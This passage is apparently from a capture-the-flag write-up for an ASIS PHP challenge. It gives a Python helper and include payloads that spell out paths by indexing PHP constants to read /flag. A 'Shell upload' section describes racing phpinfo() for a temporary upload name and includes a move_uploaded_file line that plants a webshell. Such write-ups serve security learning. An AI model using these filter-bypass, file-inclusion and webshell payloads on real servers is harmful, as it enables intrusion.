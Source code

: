 ```python
    'v': 'PHP_LOCALSTATEDIR[ZLIB_DATA_ERROR]',
    'w': 'ICONV_IMPL[ZLIB_BLOCK]',
    'x': 'PHP_OS[E_PARSE]',
    'y': '',
    'z': 'PHP_EXTENSION_DIR[CURLOPT_NOBODY]'
}

if(len(sys.argv)>1):
    arr = []
    for c in sys.argv[1]:
        arr.append(letters[c])
    print('.'.join(arr))
```

Finally, we only have to use `include` to open the `/flag` file.

```
include PHP_LIBDIR[PHP_ZTS].PHP_SAPI[PHP_ZTS].PHP_LIBDIR[ZLIB_BLOCK].PHP_LIBDIR[E_NOTICE].PHP_SAPI[INPUT_SESSION];
```

`ASIS{PHP_c0n574n75_4r3_S0_u53fU1l}`


# Shell upload
Although during the challenge this restriction was not in place, at the time of writing the writeup some additional steps had to be taken to get the flag.

The first step is to upload a shell. To do this we take advantage of the `phpinfo()` of the page itself to know the name of a temporary upload. As this file is deleted at the end of the PHP script execution, we need to read it and execute it before this happens.

To do this, we generate an infinite loop with `x:goto x;`. The maximum execution time is set to 6 seconds, so we need to automate this process. To do this we need to use the Python `socket` library and process the partial response from the web server looking for `/tmp/uploads/phpXXXXXXXXXX`.

Once the path is obtained, we use again the constants to form the path, and we use `include` to execute it. 
If any character in the path cannot be converted, the process is repeated.

```
['/tmp/uploads/phpMIDfbl']
PHP_LIBDIR[PHP_ZTS].PHP_SYSCONFDIR[POSIX_RLIMIT_MSGQUEUE].PHP_SAPI[E_WARNING].PHP_SAPI[E_ERROR].PHP_LIBDIR[PHP_ZTS].PHP_OS[ZLIB_RLE].PHP_SAPI[E_ERROR].PHP_LIBDIR[ZLIB_BLOCK].PHP_LIBDIR[INPUT_SESSION].PHP_LIBDIR[E_NOTICE].PHP_CONFIG_FILE_SCAN_DIR[ZLIB_ERRNO].PHP_LIBDIR[E_WARNING].PHP_LIBDIR[PHP_ZTS].PHP_SAPI[E_ERROR].PHP_LIBDIR[ZLIB_STREAM_ERROR].PHP_SAPI[E_ERROR].OPENSSL_DEFAULT_STREAM_CIPHERS[E_ERROR.IMAGETYPE_JPC].OPENSSL_DEFAULT_STREAM_CIPHERS[ZLIB_BLOCK.E_PARSE.E_WARNING].OPENSSL_DEFAULT_STREAM_CIPHERS[E_WARNING].PHP_SAPI[PHP_ZTS].PHP_LIBDIR[ZLIB_BUF_ERROR].PHP_LIBDIR[ZLIB_BLOCK]
```

Another limitation of the challenge is that we have blocked many file creation functions, however we can use `move_uploaded_file` to move the temporary file.

In this way, we first upload a file with `move_uploaded_file`, and then execute it while uploading a webshell.
```
<?php move_uploaded_file($_FILES['file']['tmp_name'] , '/tmp/uploads/patata.php');
```
